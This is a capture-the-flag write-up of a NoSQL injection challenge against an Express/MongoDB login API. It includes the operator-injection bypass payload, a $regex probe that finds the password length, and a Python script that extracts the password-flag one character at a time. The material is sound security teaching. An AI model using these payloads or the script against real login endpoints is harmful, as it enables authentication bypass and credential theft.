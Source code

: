# NoSQL Injection

### Challenge
Provide Text :  The Mark LXXXV suit needs an urgent firmware upgrade.
![[Pasted image 20220224071532.png]]

### Approach

#### Application Overview

- Application Stack
	WebServer : Express (Node.js web application server )
	![[Pasted image 20220224071626.png]]
	Fevicon : MongoDB (NoSQL Database)
	![[Pasted image 20220224061124.png]]

- App Intraction
	The main.js send POST request to API /api/login with params ```username``` and ```password``` and response is not verbose

	![[Pasted image 20220224062528.png]]

	``` JavaScript
	const login = document.getElementById('login');
	const response = document.getElementById('response');

	login.addEventListener('submit', e => {

		e.preventDefault();

		fetch('/api/login', {
			method: 'POST',
			body: new URLSearchParams(new FormData(e.target))
		})
		.then(resp => resp.json())
		.then(data => {
			if (data.logged) {
				login.remove();
				response.innerHTML = data.message;
			} else {
				response.innerHTML = data.message;
			}
		});
	});
	```

#### Exploit

MongoDB is a NoSQL Database which uses JSON Object similar syntax to store data as documents. MongoDB uses BSON (Binary JSON) data format so the direct SQL injection is not possible, but some JSON and unserialized JavaScript expressions are permitted. For MongoDB, the most common such operator is `$where` which filters the results similarly to WHERE in SQ.
If the request body is encoded as JSON and the password is changed from a string to a query expression that evaluates to true, the password check becomes irrelevant and an attacker can authenticate themself as any user.

- Validating NoSQL injection
Sending the following query string as the NodeJS module `qs` parses the query string to the JSON and we have injection validated

```
username[$eq]=admin&password[$ne]=1
```
![[Pasted image 20220224064240.png]]

- Guess the legth of password
As the flag is the password and we have to sort of perform a brutforce to extract the password.

\$regex will be used to perform regular expression search ```password[$regex]=.{n} ```, where n is the +ive number.  
.{n} will match to all the value till the length of the password and after that return error.

Using Burp intruder

![[Pasted image 20220224065002.png]]

The response leght after 45 is 233 which means password length in 45 characters.

![[Pasted image 20220224065122.png]]

- Retrieving flag

The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

Using `$regex`  we can retrieve the password as well.
```username=admin&password[$regex]=knox\{a.*```
The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.

```Python
#!/usr/bin/python3  
import re  
import requests  
  
def main():  
	url = 'http://:9000/api/login'
	proxy= {  
	'http': 'http://127.0.0.1:8080'
	}
	headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
	fail_msg = re.compile('Failed')  
	flag = "knox\{"  
	mydata = "username=admin&password[$regex]="  
	alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']

	print("Starting printing flag")  

	for r in range(39):  
		for i in alphabates:  
			postdata = mydata+flag+i+'.*'  
			#print(postdata)  
			res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
			checkresp = re.search('Failed',res.text)  
			if (checkresp):  
			#print('wrong')  
				pass  
			else:  
				flag=flag+i  
				print(flag,end='\r')  
				break  
				print(flag+'\}')  
  
if __name__ == '__main__':  
	main()
```

![[pass.mp4]]